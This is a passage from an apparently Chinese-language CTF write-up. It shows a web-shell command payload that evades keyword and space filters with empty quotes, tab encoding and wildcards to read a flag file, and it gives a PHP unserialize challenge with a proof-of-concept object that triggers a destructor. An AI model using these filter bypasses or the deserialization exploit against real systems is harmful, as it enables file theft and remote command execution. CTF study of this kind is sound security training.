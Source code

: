 `''`绕过关键字过滤、`%09`(制表符)绕过空格、占位符`?`匹配

payload：

```
http://121.41.7.149:65002/mybackdoor.php?cmd=ca''t%09/Fl??????????
```



## [😯Mid]bestLanguage

```php
<?php

error_reporting(0);

class superGate{
    public $gay = true;

    function __destruct(){
        echo file_get_contents("/flag");
        die();
    }
}

$p = $_GET['p'];
$honey = unserialize($p);
if(preg_match("/superGate/i", serialize($honey))){
    echo "no";
    throw Exception();
}

show_source(__FILE__);
```

superGate是肯定要的--，但是会触发`throw Exception();`抛出异常从而停止执行代码

先本地测试一下，报错是`调用了未定义的函数 Exception()`

![](https://i.loli.net/2021/10/09/woEfjvqlybZn1iJ.png)

那么定义一个就行--

poc：

```php
<?php

class superGate{
    public $gay = true;
    function __construct(){
        $this->gay = new Exception("666");
    }
}

$a = new superGate();
echo serialize($a);
```
